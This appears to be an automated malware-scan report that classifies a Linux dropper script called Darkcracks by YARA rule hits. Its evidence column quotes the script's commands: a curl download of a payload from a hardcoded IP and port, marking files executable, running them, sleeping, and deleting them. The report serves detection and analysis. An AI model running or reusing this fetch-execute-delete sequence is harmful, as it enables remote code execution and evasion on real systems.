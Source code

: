 ## linux/2024.Darkcracks/darkcracks.sh [🚨 CRITICAL]

|   RISK   |                                                                   KEY                                                                   |                          DESCRIPTION                           |                                                                                                                                                                                                                                                                                                                                         EVIDENCE                                                                                                                                                                                                                                                                                                                                         |
|----------|-----------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| CRITICAL | [combo/dropper/shell](https://github.com/chainguard-dev/bincapz/blob/main/rules/combo/dropper/shell.yara#curl_chmod_relative_run_tiny)  | change dir, fetch file, make it executable, and run it         | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)<br>[chmod](https://github.com/search?q=chmod&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8UgL3v -o agr](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8UgL3v+-o+agr&type=code) |
| CRITICAL | [evasion/run_sleep_delete](https://github.com/chainguard-dev/bincapz/blob/main/rules/evasion/run_sleep_delete.yara#run_and_delete)      | run executable, sleep, and delete                              | [./wdvsh agr](https://github.com/search?q=.%2Fwdvsh+agr&type=code)<br>[chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)<br>[rm ./agr](https://github.com/search?q=rm+.%2Fagr&type=code)<br>[rm ./wdvsh](https://github.com/search?q=rm+.%2Fwdvsh&type=code)<br>[sleep 3](https://github.com/search?q=sleep+3&type=code)                                                                                                                                                                                                                                                                                                                                     |
| HIGH     | [process/chdir/unusual](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir-unusual.yara#unusual_cd_val)            | changes to an unusual system directory                         | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| HIGH     | [ref/ip_port](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip_port.yara#hardcoded_ip_port)                             | hardcoded IP:port destination                                  | [179.191.68.85:82](https://github.com/search?q=179.191.68.85%3A82&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| HIGH     | [ref/site/http/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/http-ip.yara#http_hardcoded_ip)                   | hardcoded IP address within a URL                              | [http://179.191.68.85:82/vendor/sebastian/diff/src/Ex](http://179.191.68.85:82/vendor/sebastian/diff/src/Ex)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MEDIUM   | [fs/file/make_executable](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/file-make_executable.yara#chmod_executable_plus) | makes file executable                                          | [chmod +x ./wdvsh](https://github.com/search?q=chmod+%2Bx+.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| MEDIUM   | [fs/permission/modify](https://github.com/chainguard-dev/bincapz/blob/main/rules/fs/permission-modify.yara#chmod)                       | [modifies file permissions](https://linux.die.net/man/1/chmod) | [chmod](https://github.com/search?q=chmod&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [net/fetch](https://github.com/chainguard-dev/bincapz/blob/main/rules/net/fetch.yara#curl_value)                                        | Invokes curl                                                   | [curl "http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/pQ1](https://github.com/search?q=curl+%22http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2FpQ1&type=code)<br>[curl http://179.191.68.85:82/vendor/sebastian/diff/src/Exception/j8Ug](https://github.com/search?q=curl+http%3A%2F%2F179.191.68.85%3A82%2Fvendor%2Fsebastian%2Fdiff%2Fsrc%2FException%2Fj8Ug&type=code)                                                                                                                                                                                                                                                                   |
| MEDIUM   | [ref/ip](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/ip.yara#hardcoded_ip)                                            | hardcoded IP address                                           | [179.191.68.85](https://github.com/search?q=179.191.68.85&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/relative](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/relative.yara#relative_path_val)                 | references and possibly executes relative path                 | [./agr](https://github.com/search?q=.%2Fagr&type=code)<br>[./wdvsh](https://github.com/search?q=.%2Fwdvsh&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| MEDIUM   | [ref/path/root](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/root.yara#root_path_val)                             | path reference within /root                                    | [/root](https://github.com/search?q=%2Froot&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| MEDIUM   | [shell/exec](https://github.com/chainguard-dev/bincapz/blob/main/rules/shell/exec.yara#calls_shell)                                     | executes shell                                                 | [/bin/bash](https://github.com/search?q=%2Fbin%2Fbash&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [process/chdir](https://github.com/chainguard-dev/bincapz/blob/main/rules/process/chdir.yara#chdir_shell)                               | changes working directory                                      | [cd /mnt](https://github.com/search?q=cd+%2Fmnt&type=code)<br>[cd /root](https://github.com/search?q=cd+%2Froot&type=code)<br>[cd /tmp](https://github.com/search?q=cd+%2Ftmp&type=code)<br>[cd /var/run](https://github.com/search?q=cd+%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                         |
| LOW      | [ref/path/var](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/path/var.yara#var_path)                                    | path reference within /var                                     | [/var/run](https://github.com/search?q=%2Fvar%2Frun&type=code)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| LOW      | [ref/site/url](https://github.com/chainguard-dev/bincapz/blob/main/rules/ref/site/url.yara#http_url)                                    | contains embedded HTTP URLs                                    | [http://179.191.68.85](http://179.191.68.85)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |

